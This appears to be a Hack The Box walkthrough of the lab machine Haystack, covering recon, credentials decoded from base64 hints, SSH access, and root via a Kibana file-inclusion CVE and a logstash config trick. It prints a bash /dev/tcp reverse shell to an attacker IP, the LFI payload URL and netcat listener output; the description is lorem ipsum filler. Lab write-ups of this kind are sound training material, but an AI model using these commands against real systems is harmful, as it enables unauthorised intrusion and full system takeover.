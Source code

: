 ```yaml
---
title: Haystack - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-09-18
image: images/haystack_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/haystack_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. nmap -Pn -sC -sV 10.10.10.115
    22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
    80/tcp   open  http    nginx 1.12.2
    9200/tcp open  http    nginx 1.12.2
    |_http-server-header: nginx/1.12.2
    |_http-title: 502 Bad Gateway

2. Download the image from http://10.10.10.115

3. strings needle.jpg shows base64 code at the end: bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==

    Decrypt gives us following Spanish text: la aguja en el pajar es "clave"
    .. or in English: the needle in the haystack is "key"

4. http://10.10.10.115:9200
    Clustername "elasticsearch" hints on how to move on. Googling elasticsearch gives the URI-syntax _search?q=WORD
    https://www.elastic.co/guide/en/elasticsearch/reference/current/search-uri-request.html

    http://10.10.10.115:9200/_search?q=clave
    "Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "
    "I have to save the key for the machine: dXNlcjogc2VjdXJpdHkg"

    "Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="
    "This key cannot be lost, I save it here: cGFzczogc3BhbmlzaC5pcy5rZXk="

5. Decrypt the keys (base64):
    dXNlcjogc2VjdXJpdHkg --> user: security
    cGFzczogc3BhbmlzaC5pcy5rZXk= --> pass: spanish.is.key

6. SSH with user/pass given above.
    [security@haystack ~]$ whoami
    security
    [security@haystack ~]$ cd /home/security/
    [security@haystack ~]$ ls -al
    total 16
    drwx------. 2 security security  99 Feb  6  2019 .
    drwxr-xr-x. 3 root     root      22 Nov 28  2018 ..
    lrwxrwxrwx. 1 root     root       9 Jan 25  2019 .bash_history -> /dev/null
    -rw-r--r--. 1 security security  18 Apr 10  2018 .bash_logout
    -rw-r--r--. 1 security security 193 Apr 10  2018 .bash_profile
    -rw-r--r--. 1 security security 231 Apr 10  2018 .bashrc
    -rw-r--r--. 1 security security  33 Feb  6  2019 user.txt
    [security@haystack ~]$ cat user.txt
    04d*****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Scan system with lse to find vulns. Under "Processes running with root permissions" we can find a lot of output regarding logstash.
    Reading up on logstash it is used for Kibana. Kibana uses port 5601 which is running locally.

    [security@haystack shm]$ ./lse.sh -l1
    [*] net000 Services listening only on localhost............................ yes!
    tcp    LISTEN     0      128    127.0.0.1:5601                  *:*


2. Setup a (remote) SSH tunnel to access the service from the attacking host.
    Remotly from Haystack: ssh -R 5601:127.0.0.1:5601 p3@10.10.14.7
    Or locally from Kali: ssh -L 5601:localhost:5601 security@10.10.10.115

    Open a web browser to http://127.0.0.1:5601 and you'll reach Kibana.

3. Kibana runs version 6.4.2 and is vulnerable for LFI (CVE-2018-17246)
    https://github.com/mpgn/CVE-2018-17246

    Upload a .js reverse shell to /dev/shm, start netcat locally and run the LFI:
    http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../dev/shm/node-rev.js

4. We don't get immediate root access with user kibana, so better upgrade to a proper shell
    root@p3:/opt/shells# nc -lnvp 4488
    listening on [any] 4488 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.115] 41040
    whoami
    kibana
    cd /root
    /bin/sh: línea 3: cd: /root: Permiso denegado

5. Using lse.sh again we can see that dir /etc/logstash/conf.d is writable and has three interesting config files; filter.conf, input.conf, output.config
    input.conf looks for a file to execute every 10s in path /opt/kibana/ with filename logstash_*, however it must match the syntax of filter.conf

6. Create a reverse shell to be executed, matching input.conf and filter.conf
    bash-4.2$ echo "Ejecutar comando : bash -i >& /dev/tcp/10.10.14.7/3366 0>&1" > /opt/kibana/logstash_p3.txt

7. Start netcat and wait for the incoming root shell
    root@p3:/opt/shells$ nc -lnvp 3366
    listening on [any] 3366 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.115] 60796
    bash: no hay control de trabajos en este shell
    [root@haystack /]# whoami
    whoami
    root
    [root@haystack /]# cat /root/root.txt
    cat /root/root.txt
    3f5******************************

